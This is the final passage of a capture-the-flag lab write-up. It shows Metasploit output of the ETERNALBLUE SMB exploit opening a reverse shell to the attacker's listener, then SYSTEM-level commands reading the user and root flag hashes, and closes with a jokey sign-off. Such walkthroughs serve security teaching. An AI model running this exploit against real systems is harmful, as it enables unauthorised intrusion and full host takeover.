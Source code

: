 ```
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.40:49158) at 2020-05-11 23:56:32 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

whoami
whoami
nt authority\system

C:\Windows\system32> type \Users\haris\Desktop\user.txt
type \Users\haris\Desktop\user.txt
4c546aea7dbee75cbd71de245c8deea9
C:\Windows\system32>type \Users\Administrator\Desktop\root.txt
type \Users\Administrator\Desktop\root.txt
ff548eb71e920ff6c08843ce9df4e717
C:\Windows\system32>
```


heheheh. Very nice. We are in. And not only that but we are already max priv. The computer is your oyster and you can open it with swords... Wait is that how that saying goes? Shakespeare would hate that I made this joke...  

Okay done and done. Hope this helps! 

Cheers, 
Zack
